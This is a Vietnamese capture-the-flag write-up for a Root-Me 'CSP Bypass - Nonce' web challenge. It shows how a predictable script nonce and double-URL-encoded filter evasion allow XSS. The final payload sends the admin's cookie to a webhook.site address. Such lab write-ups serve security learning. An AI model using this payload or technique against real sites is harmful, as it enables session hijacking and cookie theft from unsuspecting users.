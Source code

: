 ## CSP Bypass - Nonce

Challenge: http://challenge01.root-me.org/web-client/ch49/

Đầu tiên khi vào trang web ta thấy response trả về có CSP:

![alt text](image.png)

```http
Content-Security-Policy: connect-src 'none'; font-src 'none'; frame-src 'none'; img-src 'self'; manifest-src 'none'; media-src 'none'; object-src 'none'; script-src 'nonce-YTxiYXNlIGhyZTE2LTExLTIwMjQ='; style-src 'self'; worker-src 'none'; frame-ancestors 'none'; block-all-mixed-content;
```

Dùng https://csp-evaluator.withgoogle.com/ để check ta biết được:\
![alt text](image-1.png)

Ban đầu mình thử đi theo hướng `base-uri` đó là dùng thẻ    `<base>` nhưng không thành công

Chú ý lại phần `Nonce` của `script-src`, phần `Nonce` này là base64 cho 10 kí tự đầu + ngày tháng năm:\
![alt text](image-2.png)  

Từ đây ta cố định 10 kí tự đầu và gửi request để lấy được `nonce` sau đó có thể thêm thẻ `script` và thêm nonce đó vào mà response trả về `nonce` vẫn như cũ, vậy là ta đã kiểm soát được `nonce`: 

![alt text](image-3.png)

Thử với `alert(1)`:\
![alt text](image-5.png)\
![alt text](image-4.png)

Tiếp tục thử ta biết được nó sẽ chặn nếu dùng các kí tự: `.`, `document` và nhiệm vụ của ta là lấy cookie việc chặn các kí tự này khiến cho ta không thể đi theo lối mòn là: `document.cookie` được. 

Mặt khác ở đây không thể dùng `fetch` vì nó có `Content-Security-Policy: connect-src 'none'` nếu dùng fetch thì console sẽ thông báo không được phép kết nối do CSP có `connect-src 'none`

Do đó mình dùng với `location` kết hợp với `decodeURIComponent` để có thể decode `.` và `document` đưa vào dạng URL encode và ở đây phải encode 2 lần vì khi gửi request bên server sẽ tự decode đoạn input nhập vào:\
![alt text](image-6.png) 

Ngoài ra chú ý dấu `+` sẽ được tính là khoảng trắng nên để nó vẫn là dấu `+` ở trong lệnh js thì ta cũng cần encode thành `%2b`

Thành công gửi gói tin nhưng document.cookie chỉ được nhận dạng là text không phải là lệnh js:\
![alt text](image-7.png)

Vậy ở đây ta đổi hướng sang 1 cách dùng khác là dùng `window["document"]["cookie"]`:\
![alt text](image-8.png)

Payload cuối cùng:
`aaaaaaaaaa<script+nonce="YWFhYWFhYWFhYTE2LTExLTIwMjQ=">location=("//webhook"%2bdecodeURIComponent("%252E")%2b"site/1da3fdfc-04bc-472e-b524-c6fb2b3bde3a?c="%2bwindow[decodeURIComponent("%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34")]["cookie"])</script>`

Và sau đó gửi url đó cho admin đợi response























